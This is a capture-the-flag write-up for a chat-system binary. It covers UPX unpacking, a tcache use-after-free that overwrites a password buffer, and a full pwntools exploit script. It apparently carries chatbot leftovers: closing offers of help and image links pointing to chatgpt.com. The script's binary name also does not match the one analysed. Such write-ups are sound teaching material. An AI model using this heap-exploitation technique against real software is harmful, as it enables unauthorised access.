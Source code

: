 # Chat System Breach - Writeup

---

## Binary Inspection

We begin by analyzing the binary for further reversing and exploitation.

### Step 1: Checking binary format

```bash
$ file main
```

The binary is a 64-bit statically linked PIE executable.

![Alt text](img/1.png)

---

### Step 2: Checking binary security

```bash
$ pwn checksec main
```

The binary appears to be Packed with UPX.

![Alt text](img/2.png)

---

### Step 3: Unpacking the binary

```bash
$ upx -d main
```

We unpack the binary with UPX tool to make it analyzable .

![Alt text](img/3.png)

---

### Step 4: Checking binary format again

```bash
$ file main
```

Post-unpacking, the binary is stripped of symbol information.

![Alt text](img/4.png)

---

### Step 5: Rechecking security after unpacking

```bash
$ pwn checksec main
```

The `checksec` output for `main` shows: 64-bit AMD architecture, Partial RELRO, no stack canary, NX enabled, and PIE enabled.

![Alt text](img/5.png)

---

## Challenge Overview

This binary implements a chat system vulnerable to a classic **tcache-based use-after-free (UAF)**. Exploiting this UAF allows us to write arbitrary data into the "password" buffer (`s1` chunk), which is critical for bypassing a password check in `verify_password()`. Successfully passing the check triggers a call to `system("./log")` revealing the flag.

---

## Vulnerability Summary

- A 0x40-byte chunk is allocated for the chat name.
- During chat deletion, this chunk is freed and placed into the tcache freelist.
- The deletion can be canceled, leaving the chat struct valid but the name chunk freed.
- The password buffer (`s1`) is later allocated using `malloc(0x40)` — it reuses the freed chunk.
- Renaming the chat writes into the `s1` buffer.
- Writing the correct secret string (`"53cr37_c0d3"`) triggers `system("./log")`.

---

## Exploit Strategy

1. **Create a chat**  
   Allocates:

   - 0x208-byte struct chunk
   - 0x40-byte chunk for the name (stored at `struct->[1]`)

2. **Free the name chunk but cancel deletion**

   - `delete_chat()` frees the name chunk
   - Choose **N** to cancel → struct remains alive
   - Chunk is now in tcache

3. **Allocate the password buffer (`s1`)**

   - `s1 = malloc(0x40)` → reuses the tcache chunk

4. **Rename chat**

   - `rename_chat()` writes into `struct->[1]` → now also `s1`

5. **Write the secret and verify**

   - Input: `"53cr37_c0d3"`
   - Check: `strncmp(s1, "53cr37_c0d3", 11)`
   - Success: `system("./log")`

---

## Code Walkthrough

```c
new_chat():
  malloc(0x208) → struct
  malloc(0x40)  → name_chunk
  store pointer in struct->[1]

delete_chat():
  free(name_chunk)
  prompt (Y/N)
  if N → struct stays, name_chunk freed to tcache

password_alloc():
  s1 = malloc(0x40)  // reuses freed name_chunk

rename_chat():
  read input into struct->[1] (now s1)

verify_password():
  if (!strncmp(s1, "53cr37_c0d3", 11))
    system("./log");
```

---

## Exploit Script (Pwntools)

```python
from pwn import *

elf = ELF('./securechat')
p   = process(elf.path)

def new_chat(idx, name, msg):
    p.sendlineafter('> ', '1')
    p.sendlineafter('Index (0-9): ', str(idx))
    p.sendafter('Name of the chat: ', name.ljust(0x40, b'\x00'))
    p.sendafter('reply ASAP :', msg)

def delete_chat(idx, confirm):
    p.sendlineafter('> ', '2')
    p.sendlineafter('Index (0-9): ', str(idx))
    p.sendafter('(Y/N):', confirm)

def rename_chat(idx, new_name):
    p.sendlineafter('> ', '3')
    p.sendlineafter('Index (0-9): ', str(idx))
    p.sendafter('Name of the chat: ', new_name.ljust(0x40, b'\x00'))

def verify_password():
    p.sendlineafter('> ', '7')

# 1) Create chat at index 0
new_chat(0, b'A'*8, b'HELLO')

# 2) Free name chunk but cancel deleting chat
delete_chat(0, b'N')

# 3) Allocate password buffer (s1) reusing freed chunk
p.sendlineafter('> ', '5')

# 4) Overwrite password buffer with correct secret
rename_chat(0, b'53cr37_c0d3')

# 5) Trigger verification to pop shell/log
verify_password()

p.interactive()
```

---

## Result

After successful password verification, the binary executes:

```c
system("./log");
```

This outputs the contents of the `./log` file — presumably the **flag**.

---

## Additional Notes

- The key to exploitation is **tcache freelist reuse** via **use-after-free**.
- Cancelling the chat deletion keeps the struct valid, enabling us to overwrite `s1`.
- A solid understanding of **heap behavior** and **tcache internals** is essential here.

---

## Image Gallery

| Step | Description                         | Image                                                 |
| ---- | ----------------------------------- | ----------------------------------------------------- |
| 1    | Check binary type with `file`       | ![file output](https://chatgpt.com/c/img/1.png)       |
| 2    | Checksec (packed) shows protections | ![checksec packed](https://chatgpt.com/c/img/2.png)   |
| 3    | UPX unpacking in action             | ![upx unpack](https://chatgpt.com/c/img/3.png)        |
| 4    | Confirm unpacked format with `file` | ![file unpacked](https://chatgpt.com/c/img/4.png)     |
| 5    | Re-run `checksec` after unpacking   | ![checksec unpacked](https://chatgpt.com/c/img/5.png) |

---

Let me know if you want:

- Heap/tcache diagrams
- Animated GIF of the exploit running
- Printable PDF version

Happy pwning!

---

If you want, I can help you generate that GIF or any other media for your README!
